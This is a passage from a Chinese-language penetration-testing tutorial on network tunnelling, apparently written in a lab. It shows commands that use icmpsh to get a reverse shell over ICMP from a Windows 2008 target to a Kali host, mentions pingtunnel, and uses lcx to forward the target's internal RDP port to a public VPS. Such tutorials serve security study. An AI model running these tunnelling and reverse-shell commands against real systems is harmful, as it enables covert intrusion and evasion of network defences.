 

用`run.sh` 和 py脚本都失败了，那就用 编译一个二进制可执行文件。 

```bash
gcc icmpsh-m.c -o icmpsh

./icmpsh 192.168.2.148 192.168.2.156
```

可以看到已经在 running....

在win2008执行

```cmd
icmpsh.exe -t 192.168.2.148 -d 300 -b 30 -s 128
```

之后kali上即可成功得到shell.

[![r4CvRg.md.png](https://s3.ax1x.com/2020/12/26/r4CvRg.md.png)](https://imgchr.com/i/r4CvRg)

抓包看下

[![r4A9pT.md.png](https://s3.ax1x.com/2020/12/26/r4A9pT.md.png)](https://imgchr.com/i/r4A9pT)

恢复了本地 ping 应答又试了一遍，

```bash
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```

效果：一直刷屏

[![r4PVWF.md.png](https://s3.ax1x.com/2020/12/26/r4PVWF.md.png)](https://imgchr.com/i/r4PVWF)

##### 2.2.2 pingtunnel

```
https://github.com/esrrhs/pingtunnel/releases
```

https://github.com/esrrhs/pingtunnel

## 三、传输层隧道技术

传输层技术包括TCP隧道、UDP隧道和常规端口转发。

#### 3.1 lcx 端口转发

lcx 是一个基于 socket 套接字实现的端口转发工具。

windwos版 lcx.exe

linux版  portmap

1. 内网端口转发

   在目标机器上执行，将目标机器的指定端口转发到公网 vps 指定端口上。

   ```cmd
   lcx.exe -slave <公网主机IP地址> 4444 127.0.0.1 3389
   ```
